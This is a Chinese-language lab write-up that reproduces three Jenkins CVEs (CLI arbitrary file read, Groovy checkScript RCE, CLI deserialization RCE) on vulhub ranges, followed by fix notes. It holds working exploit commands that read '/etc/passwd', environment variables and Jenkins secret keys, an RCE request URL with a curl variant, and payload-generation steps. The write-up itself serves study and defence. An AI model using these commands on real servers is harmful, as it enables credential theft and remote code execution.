## 介绍

Jenkins 是一个基于 Java 开发的开源自动化服务器。它是目前全球最流行的 CI/CD（持续集成 / 持续交付）工具。

- 持续集成 (Continuous Integration, CI)： 每当开发者提交代码，Jenkins 就会自动抓取代码，运行构建脚本（如编译）并执行自动化测试。这能确保新代码不会破坏原有功能，尽早发现错误。
- 持续交付/部署 (Continuous Delivery/Deployment, CD)： 在测试通过后，Jenkins 可以自动将代码打包并发布到测试环境或生产环境，实现软件的快速迭代。
  Jenkins 工作流程

1. 提交代码： 开发者将代码推送到 GitHub/GitLab。
2. 触发构建： Jenkins 检测到代码更新（通过 Webhook），触发预设的任务。
3. 自动构建： Jenkins 拉取代码，进行编译（例如 Java 的 Maven 编译）。
4. 自动测试： 运行单元测试、集成测试。
5. 反馈结果： 如果构建失败，通过邮件或 Slack 钉钉通知团队。
6. 自动部署： 如果测试通过，自动将程序包部署到服务器上。

## Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）

> 靶场环境：vulhub/jenkins/CVE-2024-23897

### 靶场搭建

```sh
git clone https://github.com/vulhub/vulhub.git
cd vulhub/jenkins/CVE-2024-23897
docker compose up -d
```

启动后，访问`http://your-ip:8080/`即可查看到Jenkins页面

### 漏洞原理

Jenkins提供了一个命令行的接口，用户可以下载一个命令行客户端jenkins-cli.jar到本地，并调用该客户端来执行一些Jenkins的功能。但是用户使用jenkins-cli.jar时，命令行是传到服务端解析的，而不是在jenkins-cli.jar里解析。这就导致了一个问题，Jenkins服务端解析命令行时使用了一个第三方库[args4j](https://github.com/kohsuke/args4j)，这个库实现了Linux中一个常见的功能——如果一个参数是以`@`开头，则会被自动认为是一个文件名，文件内容会被读取作为参数。Jenkins是在服务端解析的命令行参数，又支持args4j的这个特性，就造成文件读取漏洞。
参考链接：

- https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2024-23897/README.zh-cn.md
- https://www.cnblogs.com/BMCel/p/18027664
- https://www.leavesongs.com/PENETRATION/jenkins-cve-2024-23897.html

### 漏洞复现

利用漏洞直接使用官方提供的命令行客户端，在`http://your-ip:8080/jnlpJars/jenkins-cli.jar`下载

```sh
wget http://your-ip:8080/jnlpJars/jenkins-cli.jar
```


这里的jdk版本是jdk8u292
使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录

```sh
java -jar jenkins-cli.jar -s http://your-ip:8080/ -http help 1 "@/proc/self/environ"
```


`JENKINS_HOME=/var/jenkins_home`
然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```sh
java -jar jenkins-cli.jar -s http://your-ip:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```



```sh
java -jar jenkins-cli.jar -s http://your-ip:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```


vulhub的靶场默认开启了“匿名用户可读”选项，某些Jenkins版本默认安装时可能也是开启的，但通常管理员会关闭这个功能。另外，大部分企业的Jenkins会安装“Matrix-based security”这样的插件来管理权限，也会影响“匿名用户可读”选项的值。

- 当Jenkins开启了“匿名用户可读”功能，大部分命令都可以被调用
- 当Jenkins关闭了“匿名用户可读”功能，只有help和who-am-i命令可以被调用
  如果Jenkins开启了“匿名用户可读”选项，则大部分命令都可以被调用，其中包括connect-node命令和reload-job命令。这俩命令可以用来读取文件全部内容
- connect-node

```sh
java -jar jenkins-cli.jar -s http://your-ip:8080/ -http connect-node "@/etc/passwd"
```



- reload-job

```sh
java -jar jenkins-cli.jar -s http://your-ip:8080/ -http reload-job "@/etc/passwd"
```


Jenkins敏感文件
通过读`/proc/self/environ`文件拿到Jenkins的根目录，我们就可以来尝试读取下面这些敏感文件。

- /var/jenkins_home/users/users.xml 用户列表和每个用户信息所在的文件目录
- /var/jenkins_home/users/读users.xml得到用户名/config.xml 保存所有用户的信息，包括密码、种子、Token等
- /var/jenkins_home/secret.key 保存Remember-Me Cookie中的一部分
- /var/jenkins_home/secrets/master.key 作为AES解密密钥
- /var/jenkins_home/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac 作为计算hmac签名时的Key
  前面文件都可以直接读取，最后一个文件是一个二进制文件
  CVE-2024-23897漏洞的利用有下面两个比较核心的限制：
- 是否开启“匿名用户可读”选项
- 服务端字符集是否兼容读取二进制文件
  第一个问题的结果会影响攻击者是否能够读取文件的全文，包括用户的密码等信息；第二个问题的结果影响攻击者是否能够伪造任意用户的remember-me Cookie。

### 如何修复

更新版本，升级到安全的版本

## Jenkins 远程代码执行漏洞（CVE-2018-1000861）

> 靶场环境：vulhub/jenkins/CVE-2018-1000861

### 靶场搭建

```sh
git clone https://github.com/vulhub/vulhub.git
cd vulhub/jenkins/CVE-2018-1000861
docker compose up -d
```

启动后，访问`http://your-ip:8080/`即可查看到Jenkins页面

### 漏洞原理

Jenkins 核心和插件中存在的一个高危的远程代码执行（RCE）漏洞。该漏洞源于 Jenkins 的 “安全审计”（Security Realm） 和 “用户管理” 功能中的一个缺陷。

在 `stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java` 中，攻击者可以通过访问构造的 URL 路径来调用 Java 对象上的某些方法。
构造特殊 HTTP POST 请求执行 Groovy 代码，以`jenkins`用户身份执行系统命令

Jenkins提供`/securityRealm/user/[username]/descriptorByName/[descriptor]/checkField`的HTTP API端点。这个端点原本的设计目的是让系统在用户注册或修改资料时，异步验证用户输入的用户名、邮箱等字段是否合法（例如，邮箱格式是否正确）。但该端点的权限检查机制存在缺陷。攻击者可以通过在`[descriptor]`部分插入特定的路径（如 `org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript`），从而将请求重定向到处理Groovy脚本的解析器。

参考链接：

- https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2018-1000861/README.zh-cn.md
- https://www.cnblogs.com/jzssuanfa/p/19255187

### 漏洞复现

#### 方法1

使用 @orangetw 提供的[一键化 POC 脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)
直接复制exp.py文件内容，保存为exp.py

这个脚本需要使用python2去运行，需要使用pip安装`requests`,`enum`模块

```sh
pip install requests enum
python exp.py http://your-ip:port '要执行的命令'
```


验证是否执行成功


#### 方法2

直接发送如下请求，浏览器，curl，burp都行

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "要执行的命令".execute()
  }
}
```

浏览器中使用插件hackbar

验证是否执行成功

使用curl命令

```sh
curl -G \
  --data-urlencode "sandbox=true" \
  --data-urlencode "value=public class x { public x(){ \"touch /tmp/333.txt\".execute() } }" \
  "http://192.168.79.111:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript"
```


验证是否执行成功


#### 反弹shell

使用上述方法1，弹个shell试试
运行脚本

收到shell


### 如何修复

1. 升级Jenkins核心版本
2. 升级Script Security Plugin版本
   该漏洞通常需要利用`script-security`插件中的接口作为跳板

## Jenkins-CLI 远程代码执行漏洞（CVE-2017-1000353）

> 靶场环境：vulhub/jenkins/CVE-2017-1000353

### 靶场搭建

```sh
git clone https://github.com/vulhub/vulhub.git
cd vulhub/jenkins/CVE-2017-1000353
docker compose up -d
```

启动后，访问`http://your-ip:8080/`即可查看到Jenkins页面

### 漏洞原理

在Jenkins CLI 接口（Remoting 库）中出现，当服务端在处理 download请求时，会调用 download()方法，并等待一个upload请求。在收到upload请求后，将请求内容作为输入流传入到创建的 Channel 对象中。在创建 Channel对象时，会同时创建一个子线程来读取序列化对象，读取对象过程中调用了readObject()方法，从而导致反序列化漏洞的出现。

参考链接：

- https://github.com/vulhub/vulhub/blob/master/jenkins/CVE-2017-1000353/README.zh-cn.md
- https://www.ctfiot.com/122244.html
- https://github.com/r00t4dm/Jenkins-CVE-2017-1000353
- https://paper.seebug.org/295/
  Jenkins 2.56 及更早版本以及 2.46.1 LTS及更早版本存在未授权的远程代码执行漏洞。

### 漏洞复现

利用该漏洞时，Java 版本一致性非常重要。生成 Payload 的环境建议使用**OpenJDK 8u292**过高版本的Java可能会因为自身的安全限制（如 JEP 290）导致Payload失效。

1. 生成恶意序列化载荷
   首先，下载 [CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar) 工具来生成 payload。
   它不仅生成反序列化 Gadget（如 `SignedObject` 链），还会自动加上 **Jenkins Remoting**协议所需的 Preamble（前导符）。
   下载jdk 8u292， https://github.com/AdoptOpenJDK/openjdk8-upstream-binaries/releases/tag/jdk8u292-b10 自行选择即可，下载完成解压

```sh
wget 下载的链接
tar -czvf OpenJDK8U-jdk_x64_linux_8u292b10.tar.gz
```

使用sdk来管理java

```
sdk install java [版本别名] [本地JDK解压目录的绝对路径]
sdk install java 8u292 /opt/openjdk-8u292-b10/
```



使用jdk 8u292运行工具生成payload

```sh
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar 生成的ser文件名 "要执行的命令"
```


如果遇到问题，可以使用以下命令在Docker中生成payload

```sh
docker run --rm -v $(pwd):/tmp openjdk:8u292 bash -c "cd /tmp && java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar 文件名.ser \"要执行的命令\""
```

| 命令部分                        | 功能描述                                                     |
| ------------------------------- | ------------------------------------------------------------ |
| `docker run --rm`               | 启动一个容器，并在容器运行结束（退出）后自动删除容器，保持环境干净。 |
| `-v $(pwd):/tmp`                | 挂载目录：将当前宿主机的目录（`$(pwd)`）映射到容器内的 `/tmp` 目录。这意味着容器在 `/tmp` 生成的文件会直接出现在你当前的文件夹里。 |
| `openjdk:8u292`                 | 使用指定的 Java 8 镜像作为运行环境（正好是你之前配置的那个版本）。 |
| `bash -c "..."`                 | 在容器内启动 Bash 并执行引号中的一系列指令。                 |
| `cd /tmp && ...`                | 先进入挂载的目录，确保能找到 `.jar` 文件。                   |
| `java -jar CVE-2017-1000353...` | 核心执行步骤：运行漏洞利用工具（PoC）。                      |
| `jenkins_poc.ser`               | 程序的第一个参数：指定输出文件名。                           |
| `"touch /tmp/success"`          | 程序的第二个参数：指定要在受害者机器上执行的命令（创建一个空文件）。 |

2. 并将其发送至目标 Jenkins 服务器
   下载 [exploit.py](https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py) 脚本，并使用Python 3执行以发送 payload。（我使用的是python3.9）
   exploit.py脚本模拟双路HTTP请求（Download 和 Upload），将生成的 `.ser` 文件发送至目标。

```sh
python exploit.py http://your-ip:port payload文件名
```


验证漏洞利用是否成功


#### 反弹shell

1. 生成反弹shell的payload，并且使用exp脚本发送payload
   
   收到shell
   

### 如何修复

1. 升级Jenkins版本
2. 临时缓解方案：禁用 CLI 接口
3. 升级JRE版本，环境加固：JEP 290 机制
   JEP 290是在 2016 年左右引入的，它是Java安全史上的一个里程碑，直接改变了Java处理反序列化的方式。在 JEP 290 之前，Java 的 `readObject()` 是“来者不拒”的，这导致了大量反序列化漏洞。JEP 290 引入了序列化筛选器（Serialization Filtering）机制。
   该漏洞的本质是Java反序列化。通过升级运行Jenkins的 JRE (Java Runtime Environment)，可以利用Java自带的防御机制。

了解一下官方的做法，添加黑名单：Jenkins 在 `remoting` 组件中定义了一个名为 `ClassFilter` 的抽象类。它的作用是在 `ObjectInputStream.readObject()` 真正执行之前，拦截并检查即将被实例化的类名。官方在`ClassFilter.java`的默认实现中，维护了一个硬编码的“危险类”列表。这些类通常是已知的Gadget Chains的起点或中间环节。

```java
@Override
protected Class<?> resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
    String name = desc.getName(); // 获取类名
    
    // 调用 ClassFilter 进行检查
    ClassFilter filter = ClassFilter.get();
    try {
        filter.check(name); // 如果类名在黑名单中，此处会直接抛出安全异常
    } catch (SecurityException e) {
        throw new InvalidClassException("Rejected by Blacklist", name);
    }

    return super.resolveClass(desc); // 只有通过检查，才允许进入后续的反序列化流程
}
```